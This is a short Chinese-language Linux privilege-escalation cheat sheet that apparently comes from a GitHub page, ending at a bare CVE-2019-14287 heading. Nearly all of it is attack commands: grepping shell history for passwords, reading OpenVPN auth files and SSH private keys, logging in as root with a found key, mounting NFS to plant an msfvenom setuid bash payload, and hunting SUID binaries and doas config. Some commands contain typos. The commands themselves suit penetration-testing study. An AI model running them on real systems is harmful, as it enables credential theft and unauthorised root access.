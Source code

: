 ## 历史记录

- 历史文件暴露

```
	cat ~/.*history | grep "pass"
```

- 密钥配置文件
	
```
	ls -liah
	
	cat myvpn.ovpn
	
	cat /etc/openvpn/auth.txt
```

-  SSH 密钥敏感信息提权

```
	ls -liah /`
	  `find / -name authorized_key 2>/dev/null`
	  `find / -name id_rsa 2>/dev/null`
	ls -liah /.ssh
	vim id_rsa
	chmod 600 id_rsa
	ssh -i id_rsaroot@10.10.10.12
```

## NFS 提权

```
	cat /etc/exports
	
	sudo mkdir /tmp/nfs
	
	sudo mount -o rw,vers=3 10.10.10.12:/tmp /tmp/nfs
	
	cd /tmp/nfs
	
	msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
	
	sudo chmod +xs shell.elf
```

## doad less+vi 提权
	
```
	find / -perm -u=s -type f 2>/dev/null
	
	cat /tc/doas.conf
```

## CVE-2019-14287
